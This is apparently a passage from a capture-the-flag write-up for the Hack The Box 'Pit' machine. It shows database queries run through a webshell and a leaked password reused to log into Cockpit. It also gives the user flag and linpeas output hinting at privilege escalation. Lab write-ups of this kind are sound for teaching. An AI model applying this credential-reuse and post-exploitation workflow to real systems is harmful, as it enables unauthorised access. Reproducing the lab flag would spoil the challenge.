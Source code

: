 Since we are using a webshell (and not an interactive one), we need to pass queries inline
```bash
cmd: mysql -u "seeddms" -h "localhost" -p"ied^ieY6xoquu" -D "seeddms" -e "show tables;" 
# EMPTY
```

Hummmm, strange! Lets check for creds reuse
```bash
# Users
michelle
root
__default__
admin
jack

# Passwords
ied^ieY6xoquu
michelle

# Tests
ssh - only with keys
SpeedDMS (dms-pit.htb/seeddms51x/seeddms/) - no luck # tested for: admin, jack and root
Cockpit (pit.htb:9090/) - WORKS # michelle:ied^ieY6xoquu
```
From the UI, we have a fully featured terminal but cant paste, so i did a reverse shell (even though it was worse because it was a junkie shell) <br>

```bash 
cmd: whoami && id

michelle
uid=1000(michelle) gid=1000(michelle) groups=1000(michelle) context=user_u:user_r:user_t:s0

cmd: cat user.txt
# FLAG: 8941627dc27f79867ad7391e875da8c7
```

Running linpeas, we got some interesting stuff
```bash
/usr/sbin/grub2-set-bootflag (Unknown SUID binary)

Files with ACLs (limited to 50)
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#acls
# file: /usr/local/monitoring
USER   root      rwx     
user   michelle  -wx     
GROUP  root      rwx     
mask             rwx     
other            ---   

-rw-r--r--. 1 root root 3019 May 15  2020 /etc/bashrc
-rw-r--r--. 1 root root 376 Jul 21  2020 /etc/skel/.bashrc  
``` 
